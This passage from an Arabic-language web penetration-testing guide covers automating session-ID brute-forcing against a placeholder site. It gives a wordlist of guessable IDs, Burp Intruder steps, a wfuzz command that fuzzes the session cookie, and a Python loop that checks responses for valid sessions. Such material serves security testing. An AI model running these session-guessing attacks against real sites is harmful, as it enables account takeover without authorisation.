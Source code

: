   - Burp Suite:
    - أرسل طلبات بـ Session ID واحد من سياقات مختلفة.

---

#### **المحاولة الثامنة: أتمتة اختبار الجلسات باستخدام أدوات**
**الهدف**: أتمتة اختبار توليد الـ Session IDs أو استغلالها عشان نختبر عدد كبير من الحالات بسرعة.
- **الخطوات**:
  1. جهز قائمة بـ Session IDs محتملة (مثل أرقام أو أنماط متوقعة) لو الـ Session ID ضعيف.
  2. استخدم Burp Suite Intruder أو wfuzz عشان ترسل طلبات بـ Session IDs مختلفة.
  3. حلل الردود بناءً على:
     - كود الـ HTTP Status (مثل 200 OK لجلسة صالحة).
     - طول الـ Response (Response Length).
     - نص الرد (مثل "Welcome" لجلسة صالحة).
  4. لو لقيت Session ID صالح، سجله لتحليل إضافي.
  5. استخدم سكربت Python لجمع وتحليل Session IDs تلقائيًا.
- **البيانات اللي هنجربها**:
  - ملف `session_ids.txt`:
    ```
    123456
    123457
    abc123
    ```
  - صفحة محمية: `https://target.com/profile`
- **النتيجة المتوقعة**:
  - نجاح: اكتشاف Session ID صالح، يعني الجلسات ضعيفة.
  - فشل: كل الردود بتطلع خطأ، يعني الجلسات محمية.
- **الأدوات**:
  - **Burp Suite Intruder**:
    - اعترض طلب لصفحة محمية.
    - حدد حقل `session` في الكوكي كـ Payload Position.
    - استخدم قائمة `session_ids.txt`.
  - **wfuzz**:
    ```bash
    wfuzz -c -z file,session_ids.txt --hc 404 -b "session=FUZZ" https://target.com/profile
    ```
  - **Python Script**:
    ```python
    import requests

    url = "https://target.com/profile"
    session_ids = ["123456", "123457", "abc123"]

    for sid in session_ids:
        response = requests.get(url, cookies={"session": sid})
        print(f"Session ID: {sid}, Status: {response.status_code}, Length: {len(response.text)}")
    ```
- **الأوامر**:
  - wfuzz:
    ```bash
    wfuzz -c -z file,session_ids.txt --hc 404 -b "session=FUZZ" https://target.com/profile
    ```
  - Python: `python test_session_ids.py` (احفظ السكربت فوق).

---